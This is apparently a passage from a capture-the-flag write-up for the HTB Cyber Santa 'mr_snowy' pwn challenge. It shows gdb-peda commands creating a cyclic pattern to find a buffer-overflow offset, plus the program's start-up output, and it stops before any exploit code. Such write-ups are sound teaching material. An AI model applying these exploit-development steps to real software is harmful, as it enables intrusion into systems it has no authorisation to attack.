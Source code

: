 ![](img/duar.jpg)

This is the one :'). Let's use gdb to find the offset and get the function address.

First, we could use gdb to create a pattern.
```
$ gdb -q ./mr_snowy
Reading symbols from ./mr_snowy...
(No debugging symbols found in ./mr_snowy)
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/HTB/cyber santa/pwn_mr_snowy/mr_snowy 

                                                                                                                 
[Location]: 🎅 Santa's garden..                                                                                  
                                                                                                                 
   _____    *  *  *  *  *     *  *                                                                               
   |   |        *   *    *   * **                                                                                
  _|___|_     *  *  *   *  **  *                                                                                 
  ( 0 0 )   *   *  *   * *   * *   *                                                                             
 (   *   )    *   *    *    *   * *                                                                              
(    *    )      *  *   *  *   *  *                                                                              
```
